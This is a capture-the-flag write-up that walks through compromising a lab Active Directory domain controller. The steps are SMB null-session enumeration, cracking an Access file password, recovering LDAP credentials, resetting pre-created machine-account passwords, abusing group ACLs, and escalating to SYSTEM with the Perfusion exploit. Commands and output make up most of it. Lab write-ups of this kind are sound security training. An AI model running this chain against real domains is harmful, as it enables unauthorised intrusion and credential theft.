

In this lab, we will use pre-created computer accounts, abuse DACLs, and exploit an unpatched vulnerability to elevate our privileges.
## Reconnaissance

```bash
Nmap scan report for 10.10.90.89
Host is up (0.025s latency).
Not shown: 984 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2025-10-15 16:00:43Z)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: RETRO2)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap               Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-wbt-server?
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: BLN01; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Ok, we are dealing with an Active Directory using a domain controller running Windows Server 2008 R2. I think there must already be CVEs for this version allowing us to quickly pwn the lab, but that's probably not the intended path.

So we will first enumerate the SMB shares.

```bash
[Oct 15, 2025 - 18:07:43 (CEST)] exegol-vulnlab /workspace # nxc smb $IP -u '' -p '' --shares 
SMB         10.10.90.89     445    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.90.89     445    BLN01            [+] retro2.vl\:
SMB         10.10.90.89     445    BLN01            [-] Error enumerating shares: STATUS_ACCESS_DENIED
[Oct 15, 2025 - 18:07:49 (CEST)] exegol-vulnlab /workspace # nxc smb $IP -u 'test' -p '' --shares
SMB         10.10.90.89     445    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.90.89     445    BLN01            [+] retro2.vl\test: (Guest)
SMB         10.10.90.89     445    BLN01            [*] Enumerated shares
SMB         10.10.90.89     445    BLN01            Share           Permissions     Remark
SMB         10.10.90.89     445    BLN01            -----           -----------     ------
SMB         10.10.90.89     445    BLN01            ADMIN$                          Remote Admin
SMB         10.10.90.89     445    BLN01            C$                              Default share
SMB         10.10.90.89     445    BLN01            IPC$                            Remote IPC
SMB         10.10.90.89     445    BLN01            NETLOGON                        Logon server share
SMB         10.10.90.89     445    BLN01            Public          READ
SMB         10.10.90.89     445    BLN01            SYSVOL                          Logon server share
```

SMB null session is enabled, which allows us to read the Public share. In this share, we have an MS Access file.
After trying to open it with MS Access, we can see that it is password protected. Fortunately, there is a tool that allows us to extract the hash of this password and then crack it with John.

```bash
[Oct 15, 2025 - 19:00:47 (CEST)] exegol-vulnlab /workspace # python2 office2john.py staff.accdb| tee staff_hash
staff.accdb:$office$*2013*100000*256*16*5736cfcbb054e749a8f303570c5c1970*1ec683f4d8c4e9faf77d3c01f2433e56*7de0d4af8c54c33be322dbc860b68b4849f811196015a3f48a424a265d018235

[Oct 15, 2025 - 19:04:48 (CEST)] exegol-vulnlab /workspace # john staff_hash
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 128/128 SSE2 4x / SHA512 128/128 SSE2 2x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:01:13 DONE 1/3 (2025-10-15 19:06) 0g/s 192.0p/s 192.0c/s 192.0C/s Sstaff.accdb1902..Astaff1900
Proceeding with wordlist:/opt/tools/john/run/password.lst
Enabling duplicate candidate password suppressor
class08          (staff.accdb)
1g 0:00:02:05 DONE 2/3 (2025-10-15 19:07) 0.007968g/s 195.6p/s 195.6c/s 195.6C/s coolkid..love27
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

 strLDAP = "LDAP://OU=staff,DC=retro2,DC=vl"
    strUser = "retro2\ldapreader"
    strPassword = "ppYaVcB5R"
```
## Exploitation

We now have credentials for the ldapreader user. We will use this user to find a path to become admin with bloodhound.



We can see that if we can gain access to the FS01$ machine account for example, we can then abuse the GenericWrite ACE to modify the password of the ADMWS01 machine, which will then allow us to abuse AddMember to add the ldapreader user to the SERVICES group, which is a member of the REMOTE DESKTOP USERS group.

With an LDAP query, we can see that the local groups (built-in AD groups) on the domain controller contain the RDP group, which means that if we control the RDP group, we can connect via RDP to the domain controller.

```bash
[Oct 15, 2025 - 21:39:23 (CEST)] exegol-vulnlab /workspace # nxc smb $IP -u 'ldapreader' -p 'ppYaVcB5R' --local-groups
SMB         10.10.109.196   445    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.109.196   445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R
SMB         10.10.109.196   445    BLN01            [*] Enumerating with SAMRPC protocol
SMB         10.10.109.196   445    BLN01            [+] Enumerated local groups
SMB         10.10.109.196   445    BLN01            549 - Server Operators
SMB         10.10.109.196   445    BLN01            548 - Account Operators
SMB         10.10.109.196   445    BLN01            554 - Pre-Windows 2000 Compatible Access
SMB         10.10.109.196   445    BLN01            557 - Incoming Forest Trust Builders
SMB         10.10.109.196   445    BLN01            560 - Windows Authorization Access Group
SMB         10.10.109.196   445    BLN01            561 - Terminal Server License Servers
SMB         10.10.109.196   445    BLN01            544 - Administrators
SMB         10.10.109.196   445    BLN01            545 - Users
SMB         10.10.109.196   445    BLN01            546 - Guests
SMB         10.10.109.196   445    BLN01            550 - Print Operators
SMB         10.10.109.196   445    BLN01            551 - Backup Operators
SMB         10.10.109.196   445    BLN01            552 - Replicator
SMB         10.10.109.196   445    BLN01            555 - Remote Desktop Users
SMB         10.10.109.196   445    BLN01            556 - Network Configuration Operators
SMB         10.10.109.196   445    BLN01            558 - Performance Monitor Users
SMB         10.10.109.196   445    BLN01            559 - Performance Log Users
SMB         10.10.109.196   445    BLN01            562 - Distributed COM Users
SMB         10.10.109.196   445    BLN01            568 - IIS_IUSRS
SMB         10.10.109.196   445    BLN01            569 - Cryptographic Operators
SMB         10.10.109.196   445    BLN01            573 - Event Log Readers
SMB         10.10.109.196   445    BLN01            574 - Certificate Service DCOM Access
SMB         10.10.109.196   445    BLN01            517 - Cert Publishers
SMB         10.10.109.196   445    BLN01            553 - RAS and IAS Servers
SMB         10.10.109.196   445    BLN01            571 - Allowed RODC Password Replication Group
SMB         10.10.109.196   445    BLN01            572 - Denied RODC Password Replication Group
SMB         10.10.109.196   445    BLN01            1102 - DnsAdmins
```

Let's check if we can control the FS01 computer account, and indeed we can see that it has the pre-created computer attribute, which means its password is the machine name in lowercase.

```bash
[Oct 15, 2025 - 21:43:13 (CEST)] exegol-vulnlab /workspace # nxc smb $IP -u 'fs01$' -p 'fs01' --shares
SMB         10.10.109.196   445    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.109.196   445    BLN01            [-] retro2.vl\fs01$:fs01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

We cannot use getTGT to obtain a TGT because we are on a 2008 functional level domain. So we will simply change the password of FS01.

```bash
[Oct 15, 2025 - 21:53:36 (CEST)] exegol-vulnlab /workspace # python rpcchangepwd.py retro2.vl/fs01\$:fs01@$IP -newpass Test123!
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Password was changed successfully.
```

Once that's done, we can now modify the password of the ADMWS01 machine by abusing GenericWrite.

```bash
[Oct 15, 2025 - 22:05:29 (CEST)] exegol-vulnlab /workspace # net rpc password 'ADMWS01$' Test123! -U retro2.vl/'fs01$'%Test123! -S $IP
```

Then by abusing AddMember, we can add the ldapreader user to the SERVICES group.

```bash
[Oct 15, 2025 - 22:06:28 (CEST)] exegol-vulnlab /workspace # bloodyAD --host $IP -d retro2.vl -u 'ADMWS01$' -p 'Test123!' add groupMember 'SERVICES' 'ldapreader'
[+] ldapreader added to SERVICES
```

Now we can connect via RDP to the domain controller BLN01.
## Privilege Escalation

Once connected via RDP to the domain controller, we can look for privilege escalation. After some research, I found these two blog articles:
https://itm4n.github.io/windows-registry-rpceptmapper-eop/
https://itm4n.github.io/windows-registry-rpceptmapper-exploit/#in-the-previous-episode

We will therefore use the Perfusion tool to become SYSTEM on the domain controller. This tool exploits a vulnerability on Windows 7 and Windows Server 2008 that allows adding a Performance key for the DNSCache and RpcEtMapper services. This key then allows loading a DLL that will execute a cmd in the WMI user context.

You can compile the tool with Visual Studio 2019.

Once that's done, we create a small Python server to deliver the tool to the domain controller and then use it.


Boom! Now we can get the flag!

Thanks for reading!
